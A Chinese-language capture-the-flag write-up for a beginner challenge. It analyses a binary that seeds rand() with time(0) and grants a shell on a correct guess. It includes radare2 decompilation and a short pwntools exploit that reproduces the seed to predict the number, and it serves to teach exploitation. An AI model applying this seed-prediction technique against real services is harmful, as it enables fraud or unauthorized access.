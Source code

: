```yaml
---
title: 猜数字
author: 13m0n4de
difficulty: Trivial
category: Pwn
image: ghcr.io/svuctf/svuctf-helloworld-2024/srand:latest
port: 70
writeup_author: 13m0n4de
tags:
  - pseudo_random
reference:
---
```


# 猜数字

## 题目描述

## 题目解析

从这一题开始，Pwn 分类就开始涉及到附件程序的分析利用环节了。

### 文件信息

首先使用 `file` 命令查看文件类型：

```
$ file game
game: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=c1cc42f54892f239643b27a2ee4a784c0b0c0c46, for GNU/Linux 3.2.0, not stripped
```

这是一个 64 位的 ELF 文件 (`ELF 64-bit LSB executable`)，动态链接 (`dynamically linked`)，没有去除符号 (`not stripped`)。

查看保护机制：

```
$ pwn checksec game
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

开启了 NX 保护、Canary 保护。

### 程序分析

使用反编译工具（IDA、Radare2 等，以下使用 Radare2 举例）进行分析：

```
$ r2 -AA game
```

列出所有函数：

```
[0x00401170]> afl
0x004010d0    1     11 sym.imp.putchar
0x004010e0    1     11 sym.imp.puts
0x004010f0    1     11 sym.imp.__stack_chk_fail
0x00401100    1     11 sym.imp.system
0x00401110    1     11 sym.imp.printf
0x00401120    1     11 sym.imp.srand
0x00401130    1     11 sym.imp.time
0x00401140    1     11 sym.imp.setvbuf
0x00401150    1     11 sym.imp.__isoc99_scanf
0x00401160    1     11 sym.imp.rand
0x00401170    1     37 entry0
0x004011b0    4     31 sym.deregister_tm_clones
0x004011e0    4     49 sym.register_tm_clones
0x00401220    3     32 entry.fini0
0x00401250    1      6 entry.init0
0x0040147c    1     13 sym._fini
0x004012bb    1    106 sym.banner
0x00401256    1    101 sym.init
0x004011a0    1      5 sym._dl_relocate_static_pie
0x0040143b    1     62 main
0x00401325    8    278 sym.game
0x00401000    3     27 sym._init
0x00401030    2     28 fcn.00401030
0x00401040    1     15 fcn.00401040
0x00401050    1     15 fcn.00401050
0x00401060    1     15 fcn.00401060
0x00401070    1     15 fcn.00401070
0x00401080    1     15 fcn.00401080
0x00401090    1     15 fcn.00401090
0x004010a0    1     15 fcn.004010a0
0x004010b0    1     15 fcn.004010b0
0x004010c0    1     15 fcn.004010c0
```

通过函数列表可以看到一些关键函数：

- `main`：程序入口点
- `init`：程序初始化
- `banner`：打印比赛信息
- `game`：实现主要游戏逻辑

其中 `init` 函数的作用是禁用标准输入输出的缓冲区，这是 CTF 中 Pwn 题的常见做法：

```c
setvbuf(stdin, NULL, _IONBF, 0);
setvbuf(stdout, NULL, _IONBF, 0);
setvbuf(stderr, NULL, _IONBF, 0);
```

进入主函数 `main` 中，查看反编译伪代码（`pdg` 命令需要安装 [r2ghidra](https://github.com/radareorg/r2ghidra)）：

```c
[0x0040143b]> pdg

ulong main(void)

{
    uint uVar1;
    uchar *puVar2;
    ulong uStack_10;

    uStack_10 = 0x40144d;
    uVar1 = sym.imp.time(0);
    *(*0x20 + -0x10) = 0x401454;
    sym.imp.srand(uVar1);
    puVar2 = *0x20 + -8;
    *(*0x20 + -8 + -8) = 0x40145e;
    sym.init();
    *(puVar2 + -8) = 0x401468;
    sym.banner();
    *(puVar2 + -8) = 0x401472;
    sym.game();
    return 0;
}
```

`main` 函数在一开始调用了 [time](https://man7.org/linux/man-pages/man2/time.2.html) 函数，返回当前时间戳 (Timestamp)，然后将该时间戳作为随机数种子传入 `srand` 函数，进行随机数播种。

`game` 函数包含了程序的核心逻辑，首先使用 `rand()` 生成随机数，并进行一系列运算：

```c
iVar1 = sym.imp.rand();
iStack_14 = (iVar1 - ((iVar1 / 99999 + (iVar1 >> 0x1f)) - (iVar1 >> 0x1f)) * 99999) + 1;
```

这些运算的目的是将随机数限制在 1-99999 的范围内，相当于：

```c
random_number = rand() % 99999 + 1;
```

接着程序会输出提示信息，告诉用户范围并要求输入：

```c
printf("I've thought of a number between 1 and %d.\n", 99999);
puts("You have only one chance to guess this number. Good luck!\n");
printf("Please enter your guess: ");
```

用户输入后会进行判断：

```c
iVar1 = sym.imp.__isoc99_scanf(0x402155, &stack0xffffffffffffffe8);
if (iVar1 == 1) {
    if (iStack_14 == iStack_18) {
        // 猜对了，获得 shell
        printf("\nCongratulations! You've guessed the number %d!\n", iVar1);
        system("/bin/sh");
    } else {
        // 猜错了，游戏结束
        printf("\nSorry, you didn't guess correctly. The right number was %d.\n", iVar1);
    }
} else {
    // 输入无效，游戏结束
    puts("Invalid input, game over.");
}
```

### 漏洞分析

这个程序的主要问题出在随机数生成的可预测性上。具体来说：

1. 随机数种子的问题
    - 程序使用 `time(0)` 获取的时间戳作为种子
    - 时间戳精度仅为秒级
    - 服务器和用户的系统时间差异通常很小
1. 随机数生成的特性
    - C 语言的 `rand()` 是伪随机数生成器
    - 使用相同的种子，必然产生相同的随机数序列

这两个特点结合起来导致：

- 攻击者可以通过本地时间推测服务器的随机数种子
- 使用相同种子即可生成相同的随机数，完成随机数预测

利用程序 [exp.py](./writeup/exp.py)，使用了 `ctypes` 库加载系统 libc，并调用 libc 中的函数：

```python
from pwn import *
from ctypes import cdll

context.log_level = "debug"

libc = cdll.LoadLibrary("libc.so.6")

io = process("../attachments/game")

libc.srand(libc.time(0))
number = libc.rand() % 99999 + 1

io.sendlineafter(b"Please enter your guess: ", str(number).encode())
io.interactive()
```

另一种解决方案是编写 C 程序复现目标程序的随机数生成过程：

```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

int main() {
    srand(time(0));
    printf("%d\n", rand() % 99999 + 1);
    return 0;
}
```

编译为可执行文件后，在 Python 中通过 `os.popen().read()` 执行并获取结果：

```python
import os

number = int(os.popen("./predict").read())
io.sendlineafter(b"Please enter your guess: ", str(number).encode())
```

需要注意的是，C 语言的随机数生成依赖于 libc 的具体实现。虽然靶机使用的是 Ubuntu 20.04，但大多数 Linux 发行版的 libc 实现区别不大，都可以完成预测。

